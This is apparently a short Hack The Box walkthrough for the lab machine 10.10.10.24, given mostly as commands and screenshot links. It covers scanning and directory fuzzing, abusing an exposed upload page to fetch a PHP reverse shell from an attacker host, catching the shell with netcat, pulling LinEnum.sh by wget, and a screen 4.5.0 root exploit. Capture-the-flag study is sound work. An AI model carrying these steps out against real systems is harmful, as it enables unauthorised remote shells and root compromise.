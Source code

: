 ```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.24
```
![image](https://github.com/regarmulia/HTB/assets/33616880/46735d62-2827-4576-966f-4259541ac585)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.24/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6e89b74-85df-466e-bd99-5779c782bc3e)


```
http://10.10.10.24/exposed.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/835a805c-0ea0-46dd-a17b-da4fad050cd3)


```
http://10.10.14.3/lala.txt -o uploads/lala.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fad0f92d-e6ca-4f6d-8abb-e4c2355198e6)


```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
diff -u php-reverse-shell.php shell.php
```
![image](https://user-images.githubusercontent.com/33616880/232672632-55eefa42-eeca-4a5d-8c7c-78a35e18a674.png)


```
http://10.10.14.3/php-reverse-shell.php -o uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6f90ae46-7da7-4b79-a535-23ff44c610eb)


```
nc -nlvp 1234
http://10.10.10.24/uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/edb8a437-2dc8-44b4-b5b6-6b05fbc7fefe)


```
python3 -c "import pty;pty.spawn('/bin/bash’)
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/14ee2274-fa4e-4a6d-a371-56f5584faf65)


```
OR
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/232672837-a43f9b03-ecb6-4c16-8966-9c8493c37512.png)
![image](https://user-images.githubusercontent.com/33616880/232672832-8c3e1108-d6fe-40e7-b4f0-84dce04e3aea.png)


```
screen 4.5.0
```
![image](https://user-images.githubusercontent.com/33616880/232672860-72151f75-c0e3-46f7-ba0c-22f08b39ec86.png)


```
https://www.exploit-db.com/exploits/41154
```
![image](https://github.com/regarmulia/HTB/assets/33616880/622a5695-9706-4cf5-9509-48a4bc1d4852)


```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
http://10.10.14.3/rootshell -o uploads/rootshell
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9314f3d0-e1ea-4206-abaa-47e6ea18b02e)
![image](https://github.com/regarmulia/HTB/assets/33616880/2688ef7f-8a3c-4e36-bcb7-9da3478eb431)


```
execute
```
![image](https://github.com/regarmulia/HTB/assets/33616880/59bac660-ba8f-40ec-9db4-a25af662806a)
